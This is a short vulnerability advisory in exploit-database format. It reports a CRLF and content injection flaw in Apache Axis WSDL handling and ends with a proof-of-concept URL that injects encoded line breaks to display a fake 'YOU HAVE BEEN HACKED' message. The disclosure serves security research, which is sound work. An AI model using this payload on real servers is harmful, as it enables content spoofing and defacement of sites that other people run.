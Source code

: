 # Exploit Title: Apache Axis <= 4.1 CRLF And Content Injection 
# Date: 02/13/2018
# Author website: www.jameelnabbo.com# Vendor Homepage: http://www.apache.org
# Software Link: http://www.apache.org/dyn/closer.cgi/ws/axis/1_4
# Version: < or = 4.1
# Tested on: Linux Ubuntu




1. Description
   
WSDL in Apache Axis is vulnerable to CRLF injection and although, it html encodes all the user's input. and by using %0A and %0D attackers can make new lines and write their fake content etc...

However Apache Axis doesn’t translate the HTML content (XSS) but still translate the HTML Encoded Chars.


2.Proof on concept:

http://localhost/axis/tt_pm4l%0d%0a%0d%0a%0d%0a%0d%0a———————%0d%0a YOU %20 HAVE %20 BEEN %20 HACKED————–%0d%0a%0d%0a%0d%0a.jws?wsdl
